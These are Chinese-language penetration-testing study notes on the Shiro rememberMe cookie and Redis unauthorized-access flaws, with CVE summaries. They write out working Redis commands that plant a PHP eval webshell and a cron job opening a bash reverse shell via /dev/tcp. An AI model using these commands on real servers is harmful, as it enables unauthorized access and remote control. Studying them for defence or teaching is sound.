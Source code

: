 cookie的值是经过相关信息进行序列化，然后使用AES加密（对称），最后再使用Base64编码处理

**rememberme这个key是怎么检测的？**

检索RememberMe Cookie的值

## redis漏洞

端口号6379

C语言开发

非关系型数据库

关系型数据库 mysql mssql oracle

因配置不当可以未经授权访问，攻击者无需认证就可以访问到内部数据，其漏洞可导致敏感信息泄露（Redis服务器存储一些有趣的session、cookie或商业数据可以通过get枚举键值），也可以恶意执行flushall来清空所有数据，攻击者还可通过EVAL执行lua代码，或通过数据备份功能往磁盘写入后门文件。如果Redis以root身份运行，可以给root账户写入SSH公钥文件，直接免密码登录服务器，其相关漏洞信息如下：

**Redis 远程代码执行漏洞(CVE-2016-8339)** Redis 3.2.x < 3.2.4版本存在缓冲区溢出漏洞，可导致任意代码执行。Redis数据结构存储的CONFIG SET命令中client-output-buffer-limit选项处理存在越界写漏洞。构造的CONFIG SET命令可导致越界写，代码执行。

**CVE-2015-8080** Redis 2.8.x在2.8.24以前和3.0.x 在3.0.6以前版本，lua\_struct.c中存在getnum函数整数溢出，允许上下文相关的攻击者许可运行Lua代码（内存损坏和应用程序崩溃）或可能绕过沙盒限制意图通过大量，触发基于栈的缓冲区溢出。

**CVE-2015-4335** Redis 2.8.1之前版本和3.0.2之前3.x版本中存在安全漏洞。远程攻击者可执行eval命令利用该漏洞执行任意Lua字节码

**CVE-2013-7458** 读取“.rediscli\_history”配置文件信息

**ssh公钥**

**通过配置文件写入webshell漏洞**

设置配置文件所在的目录

config set dir /var/www/html

设置要存储的文件名称

config set dbfilename webshell.php

设置字符串类型的变量，其中值为要写入的

set webshell "<?php echo @eval($\_POST\['x'\]); ?>"

保存

save

如果说,我们能够写入到文件中,计划任务里面的内容

反弹shell

然后执行命令:

root@kali:~# redis-cli -h 10.0.0.19

set xx "\\n\* \* \* \* \* bash -i >& /dev/tcp/10.0.0.19/12345 0>&1\\n"

config set dir /var/spool/cron

config set dbfilename root

